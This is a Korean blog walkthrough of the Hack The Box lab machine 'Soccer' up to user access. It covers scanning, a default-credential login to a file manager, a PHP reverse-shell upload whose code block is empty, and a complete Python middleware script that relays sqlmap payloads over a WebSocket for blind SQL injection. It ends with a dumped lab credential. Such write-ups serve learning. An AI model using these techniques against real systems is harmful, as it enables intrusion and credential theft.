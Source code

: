 ```yaml
---
date: '2023-03-03'
before : '2023-03-02'
after : '2023-03-04'
title: 'Hack The Box Machine : Soccer'
categories: ['C-SEC', 'KOR', 'webhack', 'HTB']
summary: 'HTB 2023 Machine 중 하나인 Soccer의 풀이'
thumbnail: './HTB.png'
---
```


### 0. 오늘의 문제 소개

![projectManage](../contentImages/Soccer.png)

2023년 4월 기준 HTB Active Easy로 레이팅 되어있는 머신 중 하나인 Soccer의 풀이를 해 보았다. 하지만 말이 Easy지 레이팅 지표를 보면 Medium에 가까워서 그렇게 쉽진 않았다. 한 두시간정도 걸린 것 같다.


### 1. Information Gathering


일단 nmap 스캔부터 돌려보자.

![nmap](../contentImages/soccer/1.png)

특이점은 없지만 맨 밑에 처음 보는 희안한 포트가 (9091) 열려있었는데, 이건 나중에 Privilege Escalation 할 때 필요한 거였다. 일단은 http가 열려있으니 /etc/hosts에 추가하고 접속해보자.

![soccerhtb](../contentImages/soccer/2.png)

보기에 별 다를 것 없는 사이트이다. 그럼 정석대로 Directory Fuzzing을 해서 서브다이렉토리가 존재하나 확인해보자.

![fuzzer](../contentImages/soccer/3.png)

예상하긴 했지만 tiny라는 희안한 서브다이렉토리가 존재한다. 바로 들어가보자.

### 2. Gaining Initial Foothold

![tiny](../contentImages/soccer/4.png)

이런 로그인 창이 뜨는데, 밑에 Copyright를 눌러보니 이 플러그인 제작자의 홈페이지가 뜬다.

![copyright](../contentImages/soccer/5.png)

여길 이곳저곳 탐색하다보니, 이 플러그인의 default 유저이름/암호가 admin:admin@123이란 것을 알 수 있었다. 실제 Pentest에선 모르지만, 보통 CTF에선 이런 정보가 보이면 그 크레덴셜이 유용한 경우가 많은 것 같다. 역시나 로그인이 된다. 로그인을 하니

![uploadPage](../contentImages/soccer/6.png)

이런 파일 업로드용 홈페이지가 뜬다. 아마 100프로로 File Upload관련 취약점이 존재할 것이다. 저기 tiny 폴더로 들어가서 reverse shell 업로드를 진행해보자. reverse shell은 다음과 같은 코드를 사용했다.

```

```
![uploading](../contentImages/soccer/7.png)

업로드를 하고, nc -lvnp로 내 서버를 켠 다음 파일이 업로드된 경로로 접속해보자. 경로가 /tiny/내_파일_이름.php라고 친절하게 알려준다.

![revshell](../contentImages/soccer/8.png)

성공적으로 쉘이 나왔다. 하지만 이게 끝은 아니다. 아직 유저 권한도 얻지 못한 듯 하다. 시스템을 열심히 탐색해보자... 

### 3. User Privilege

! 시스템을 탐색하다보니 (그냥 파일/경로 열어보기 노가다..) soc-player.soccer.htb라는 vhost가 존재하는 듯 하다. 접속해보니

![soc-player](../contentImages/soccer/9.png)

이런 페이지가 뜬다. 회원가입이 가능하니 얼른 가입하고 로그인을 해보자.

![logged-on](../contentImages/soccer/10.png)

이렇게 뭔가를 입력할 수 있는 화면이 뜨는데..? 이 부분이 좀 어려웠다. 페이지 소스를 확인해보니

![socket](../contentImages/soccer/11.png)

Web Socket으로 통신이 이루어진다는걸 확인할 수 있다. 저런 확인 시스템이 있는 걸 보니 일단 SQL Injection 관련인 것 같긴 한데... 구글링을 해보니 Web Socket Blind SQL Injection이 존재한다는걸 알 수 있었다. 


https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html


구글링 없이 해킹은 절대 무리란걸 다시한번 상기하며, 해당 블로그에 나와있는 파이썬 소켓 코드를 (middleware식으로 동작한다)내 컴퓨터에 작성한다. 물론 우리 상황에 맞게 살짝 코드를 바꾸긴 해야하지만 큰 틀에선 비슷하다.

```
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091"

def send_ws(payload):
 ws = create_connection(ws_server)
 # If the server returns a response on connect, use below line 
 #resp = ws.recv()
 
 # For our case, format the payload in JSON
 message = unquote(payload).replace('"','\'') # JSON으로 만든다.
 data = '{"id":"%s"}' % message # 이 부분은 살짝 바뀐다.

 ws.send(data)
 resp = ws.recv()
 ws.close()

 if resp:
  return resp
 else:
  return ''

def middleware_server(host_port,content_type="text/plain"):

 class CustomHandler(SimpleHTTPRequestHandler):
  def do_GET(self) -> None:
   self.send_response(200)
   try:
    payload = urlparse(self.path).query.split('=',1)[1]
   except IndexError:
    payload = False
    
   if payload:
    content = send_ws(payload)
   else:
    content = 'No parameters specified!'

   self.send_header("Content-type", content_type)
   self.end_headers()
   self.wfile.write(content.encode())
   return

 class _TCPServer(TCPServer):
  allow_reuse_address = True

 httpd = _TCPServer(host_port, CustomHandler)
 httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
 middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
 pass
```

이렇게 하고 sqlmap을 실행시킨다.

```
sqlmap -u “http://localhost:8081/?id=1" -p “id”
```

![sqlmap](../contentImages/soccer/12.png)

실행시켜보면 위와 같이 sql취약점을 발견할 수 있고, 그걸 바탕으로 db를 탐색하면 유저의 credential을 얻을 수 있다 :


1324 | player@player.htb | player   | PlayerOftheMatch2022


이제 ssl로 로그인을 해보고 ls를 때려보면...!

![user_exploit](../contentImages/soccer/13.png)

유저로 로그인을 할 수 있고, user.txt flag를 얻을 수 있다.

### 4. 마치며

사실 글이 이렇게 길어질 줄 몰랐다. 이거 절대 easy 아니다. 내 첫 Hack The Box pwn으로 이상한 걸 고른 것 같다. 다른 box들은 이렇게 어렵지 않던데... 여기까지가 유저 권한 취득이고, 루트 권한 취득은 좀 더 괴랄(?) 해진다. 


Root Privilege도 막 따 놓은 참이긴 하지만 내일 마저 스크린샷 찍고 정리해서 올려야지 (절대 귀찮은게 아니다.)

## Source

- Hack The Box 2023
- Me!


